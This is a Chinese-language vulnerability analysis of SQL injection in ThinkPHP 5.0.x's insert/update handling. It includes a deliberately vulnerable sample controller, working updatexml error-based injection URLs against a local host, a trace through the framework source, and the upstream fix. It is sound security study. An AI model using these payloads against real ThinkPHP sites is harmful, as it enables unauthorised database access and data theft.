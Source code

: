 # ThinkPHP5.0.x SQL注⼊

Author: H3rmesk1t

Data: 2021.08.09

# 漏洞描述
尽管`ThinkPHP 5.0.x框架`采用了参数化查询方式来操作数据库，但是在 `insert` 和 `update` 方法中，传入的参数可控，且无严格过滤，最终导致SQL注入漏洞发生
# 初始配置
- 这里利用`ThinkPHP5.0.14`做示例，[戳此进行下载](http://www.thinkphp.cn/download/1107.html)
- 下载后的源码中，需要对`Application\index\controller\Index.php`内容进行修改

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $name = input("get.name/a");
        Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">十年磨一剑 - 为API开发设计的高性能框架</span></p><span style="font-size:22px;">[ V5.0 版本由 <a href="http://www.qiniu.com" target="qiniu">七牛云</a独家赞助发布 ]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
```

配置数据库相关文件，并开启thinkphp的调试功能

![在这里插入图片描述](https://img-blog.csdnimg.cn/390fa95b211f44de8894013f8d5c7507.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/1ed1cde777ce474d8df1b1a50e688c24.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞利用

Payload：
```nash
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1
或者
http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=dec&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/bd5215d598004de2b117678593b05e3c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析
## ThinkPHP5.0.x目录结构

```less
thinkphp  应用部署目录
├─application           应用目录（可设置）
│  ├─common             公共模块目录（可更改）
│  ├─index              模块目录(可更改)
│  │  ├─config.php      模块配置文件
│  │  ├─common.php      模块函数文件
│  │  ├─controller      控制器目录
│  │  ├─model           模型目录
│  │  ├─view            视图目录
│  │  └─ ...            更多类库目录
│  ├─command.php        命令行工具配置文件
│  ├─common.php         应用公共（函数）文件
│  ├─config.php         应用（公共）配置文件
│  ├─database.php       数据库配置文件
│  ├─tags.php           应用行为扩展定义文件
│  └─route.php          路由配置文件
├─extend                扩展类库目录（可定义）
├─public                WEB 部署目录（对外访问目录）
│  ├─static             静态资源存放目录(css,js,image)
│  ├─index.php          应用入口文件
│  ├─router.php         快速测试文件
│  └─.htaccess          用于 apache 的重写
├─runtime               应用的运行时目录（可写，可设置）
├─vendor                第三方类库目录（Composer）
├─thinkphp              框架系统目录
│  ├─lang               语言包目录
│  ├─library            框架核心类库目录
│  │  ├─think           Think 类库包目录
│  │  └─traits          系统 Traits 目录
│  ├─tpl                系统模板目录
│  ├─.htaccess          用于 apache 的重写
│  ├─.travis.yml        CI 定义文件
│  ├─base.php           基础定义文件
│  ├─composer.json      composer 定义文件
│  ├─console.php        控制台入口文件
│  ├─convention.php     惯例配置文件
│  ├─helper.php         助手函数文件（可选）
│  ├─LICENSE.txt        授权说明文件
│  ├─phpunit.xml        单元测试配置文件
│  ├─README.md          README 文件
│  └─start.php          框架引导文件
├─build.php             自动生成定义文件（参考）
├─composer.json         composer 定义文件
├─LICENSE.txt           授权说明文件
├─README.md             README 文件
├─think                 命令行入口文件
```
## Payload说明
Payload：`http://127.0.0.1/cms/public/index.php/index/index/index?name[0]=inc&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1`
```ha
http://localhost/thinkphp/  public/        index.php/   index/   index/   index
       域名       网站目录    对外访问目录    入口文件       前台     控制器    方法名
```
## Application\index\controller\Index.php补充代码说明

```php
$name = input("get.name/a");
input()为TP框架的助手函数，get.name/a 表示获取get传入的name变量，并将其强制转换为数组类型
```

```php
Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
TP框架采用的是PDO方式对数据库进行查询
```
## 本地代码审计

首先通过TP框架的助手函数`input`获取到参数，name变量情况如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/a40079999bc945c88e1c3b0789c88f62.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`thinkphp/library/think/db/Query.php`中的`where`方法，再跟进`insert`方法，找到`$sql = $this->builder->insert($data, $options, $replace);`，跟进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3e9fa12a7ec41c7b4385048f1229346.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进到`thinkphp/library/think/db/Builder.php`，找到`$data = $this->parseData($data, $options);`，跟进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/4576f60006e34634a1d4c21d25e03386.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`parseData`方法，可以看出`$val`是数组，且根据`$val[0]`值为inc，通过switch语句进入`parseKey`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/325df7e466f64041941961e11cea3960.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`thinkphp/library/think/db/builder/Mysql.php`的`parseKey`方法，此处并未对传入的`$key`进行更多的过滤与检查，最后返回的仍然是`1 and (updatexml(1,concat(0x7,user(),0x7e),1))`

![在这里插入图片描述](https://img-blog.csdnimg.cn/bfcafb742dc64f599be387989ec03ec7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

回到`parseData`方法，`floatval($val[2])`返回`1`，这也正是Payload传入`username[2]=1`的原因，将其与前面经过`parseKey`方法的结果进行拼接后返回给result


![在这里插入图片描述](https://img-blog.csdnimg.cn/7281229d1a9b40a28b9a0fa5801abd22.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

回到`thinkphp/library/think/db/Builder.php`的`insert`方法中，可以看到返回的`$sql`成功造成了sql注入

![在这里插入图片描述](https://img-blog.csdnimg.cn/3d249e779c284385bb93b91e92ab4927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# 漏洞修复

- 参考官方commit：[https://github.com/top-think/framework/commit/363fd4d90312f2cfa427535b7ea01a097ca8db1b](https://github.com/top-think/framework/commit/363fd4d90312f2cfa427535b7ea01a097ca8db1b)
- 在进行dec和inc操作之前对`$val[1]`的值进行了再次确认

![在这里插入图片描述](https://img-blog.csdnimg.cn/c5228fad76194f18b24b91b8e911ec8c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
